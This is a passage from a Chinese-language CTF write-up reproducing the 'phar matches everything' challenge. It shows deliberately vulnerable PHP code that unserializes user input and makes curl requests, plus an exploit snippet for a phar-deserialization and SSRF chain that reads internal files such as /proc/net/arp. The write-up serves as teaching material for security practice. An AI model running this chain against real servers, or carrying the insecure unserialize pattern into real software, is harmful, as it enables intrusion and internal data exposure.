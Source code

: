 ## 0x04 phar matches everything (赛后复现)

...原题可以拿到源码，但似乎buuoj上不行

能拿到的源码是cathmine.php

```php
<?php
class Easytest{
    protected $test;
    public function funny_get(){
        return $this->test;
    }
}
class Main {
    public $url;
    public function curl($url){
        $ch = curl_init();  
        curl_setopt($ch,CURLOPT_URL,$url);
        curl_setopt($ch,CURLOPT_RETURNTRANSFER,true);
        $output=curl_exec($ch);
        curl_close($ch);
        return $output;
    }

	public function __destruct(){
        $this_is_a_easy_test=unserialize($_GET['careful']);
        if($this_is_a_easy_test->funny_get() === '1'){
            echo $this->curl($this->url);
        }
    }    
}

if(isset($_POST["submit"])) {
    $check = getimagesize($_POST['name']);
    if($check !== false) {
        echo "File is an image - " . $check["mime"] . ".";
    } else {
        echo "File is not an image.";
    }
}
?>
```

这里藏了一个ssrf
但是不能直接用这个php打，因为url不可控

判断文件类型使用了getimageinfo，所以可以搞phar的反序列化，这里很明显要我们SSRF，首先读下``file:///proc/net/arp``

Exp
```php
<?php
class Easytest{
    protected $test='1';
    public function funny_get(){
        return $this->test;
    }
}
class Main {
    public $url;
}


$test = new EasyTest;
echo urlencode(serialize($test))."\n";

```